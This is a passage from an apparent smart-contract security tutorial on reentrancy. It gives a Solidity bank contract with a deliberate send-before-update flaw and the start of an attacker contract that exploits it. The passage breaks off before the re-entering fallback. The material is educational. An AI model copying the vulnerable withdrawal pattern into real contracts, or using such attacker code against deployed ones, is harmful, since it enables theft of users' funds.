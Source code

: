 ## Reentrancy Deep Dive 🔄

### What is Reentrancy?

Reentrancy occurs when:
1. Contract A calls Contract B
2. Before Contract A completes execution, Contract B calls back into Contract A
3. Contract A's state hasn't been updated yet, allowing Contract B to exploit intermediate state

### Detailed Reentrancy Example

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Vulnerable contract
contract VulnerableBank {
    mapping(address => uint256) public balances;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Insufficient balance");
        
        // VULNERABLE: Call external contract before updating state
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
        
        // State update happens AFTER external call
        balances[msg.sender] = 0;
    }
    
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

// Attacker contract
contract Attacker {
    VulnerableBank public vulnerableBank;
    uint256 public attackAmount;
    address public owner;
    
    constructor(address vulnerableBankAddress) {
        vulnerableBank = VulnerableBank(vulnerableBankAddress);
        owner = msg.sender;
    }
    
    // Function to start the attack
    function attack() public payable {
        require(msg.value >= 1 ether, "Need at least 1 ether to attack");
        attackAmount = msg.value;
        
        // Deposit into the vulnerable contract
        vulnerableBank.deposit{value: attackAmount}();
        
        // Trigger the withdrawal, which will cause reentrancy
        vulnerableBank.withdraw();
    }
    
```